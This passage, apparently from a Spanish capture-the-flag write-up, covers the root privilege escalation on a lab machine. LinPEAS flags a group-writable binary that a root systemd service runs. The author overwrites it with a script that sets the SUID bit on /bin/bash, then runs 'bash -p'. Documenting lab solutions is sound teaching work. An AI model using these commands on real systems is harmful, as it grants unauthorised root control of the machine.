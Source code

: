 Una vez le demos los permisos necesarios (`chmod +x linpeas.sh`) podemos ejecutar el **`script`**:

```shell
╔══════════╣ Analyzing .service files
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#services

/etc/systemd/system/activity.service is calling this writable executable: /usr/local/share/report
```

Tras unos segundos vemos que hay un servicio que está utilizando el binario antes visto. **`LinPeas`** nos informa de que podemos escribir en este fichero, lo que significa que podemos modificarlo a lo que queramos.

Este binario es de **`root`** y solamente él puede ejecutarlo, pero nosotros, como estamos en el grupo **`talos`**, podemos modificar el contenido de este.

Esto significa que el servicio que está ejecutando este binario se está ejecutando como **`root`**, por lo que si modificamos el binario podemos llegar a obtener una **`Shell`** como **`root`**.

Para obtener la **`Shell`** deberemos crear antes un fichero:

```shell
#!/bin/bash

chmod u+s /bin/bash
```

Este fichero lo que hace es cambiar los permisos al binario **`Bash`** haciéndolo **`SUID`**. Gracias a que se le dará este permiso, podremos ejecutar el binario como **`root`** obteniendo una **`Shell`** como **`root`**.

Démosle permisos de ejecución y hagamos el cambio del original por el infectado:

```shell
melville@principle2:~$ chmod +x report
melville@principle2:~$ cp report /usr/local/share/report
```

Tras esperar unos segundos veremos que se le han cambiado los permisos al binario **`Bash`** de forma satisfactoria:

```shell
melville@principle2:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1265648 Apr 23  2023 /bin/bash
```

Ahora simplemente ejecutamos `bash -p` para obtener la **`Shell`** como **`root`** que tanto deseábamos:

```shell
melville@principle2:~$ bash -p
bash-5.2#
```

¡Enhorabuena, hemos conseguido el **`control total`** de la máquina! ¡Qué fácil!